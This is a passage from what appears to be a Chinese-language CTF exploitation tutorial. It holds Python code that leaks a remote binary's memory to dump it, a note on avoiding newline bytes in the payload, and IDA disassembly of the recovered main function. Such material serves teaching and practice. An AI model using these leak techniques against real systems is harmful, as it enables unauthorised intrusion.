 ```python
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None

def getbinary():
	addr = 0x400000
	f = open('binary', 'w')
	while addr < 0x401000:
		data = leak(addr)
		if data is None:
			f.write('\xff')
			addr += 1
		elif len(data) == 0:
			f.write('\x00')
			addr += 1
		else:
			f.write(data)
			addr += len(data)
	f.close()
getbinary()
```

需要注意的是，在 payload 中需要判断是否有 '\n' 出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

#### 分析binary

利用 IDA 打开泄露的 binary ，改变程序基地址，然后简单看看，可以基本确定源程序 main 函数的地址

```asm
seg000:00000000004005F6                 push    rbp
seg000:00000000004005F7                 mov     rbp, rsp
seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
seg000:00000000004005FE
seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
seg000:00000000004005FE                 lea     rax, [rbp-80h]
seg000:0000000000400602                 mov     edx, 80h ; '€'
seg000:0000000000400607                 mov     rsi, rax
seg000:000000000040060A                 mov     edi, 0
seg000:000000000040060F                 mov     eax, 0
seg000:0000000000400614                 call    sub_4004C0
seg000:0000000000400619                 lea     rax, [rbp-80h]
seg000:000000000040061D                 mov     rdi, rax
seg000:0000000000400620                 mov     eax, 0
seg000:0000000000400625                 call    sub_4004B0
seg000:000000000040062A                 mov     rax, cs:601048h
seg000:0000000000400631                 mov     rdi, rax
seg000:0000000000400634                 call    near ptr unk_4004E0
seg000:0000000000400639                 jmp     short loc_4005FE
```

